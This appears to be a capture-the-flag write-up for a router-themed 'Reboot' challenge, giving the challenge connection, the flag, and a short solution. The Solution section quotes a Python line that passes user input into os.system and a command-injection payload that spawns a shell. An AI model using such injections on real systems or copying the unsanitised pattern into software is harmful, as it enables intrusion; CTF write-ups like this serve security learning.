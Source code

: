 # Reboot
We found a command injection..... but you have to reboot the router to activate it...

nc reboot.chal.cyberjousting.com 1358

# Flag
byuctf{expl0iting_th1s_r3al_w0rld_w4s_s000_ann0ying}

# Solution
1. When '2' is selected, the vulnerable line is run:

```python
os.system(f'cat /etc/hosts | grep {hostname} -i')
```

Injecting this payload gives us a shell upon reboot:

```
z; bash #
```

2. Checking for any interesting folders in the filesystem, there is a `/ohno` found. Listing all its subdirectories show a file in the directory: `/ohno/i/hope/this/isnt/too/long/is/this/messing/you/up/lol/arent/ctfs/so/much/fun/f19eaee3a4e2b88563b31c7c17e2ab33`

3. `cat f19eaee3a4e2b88563b31c7c17e2ab33` to get the flag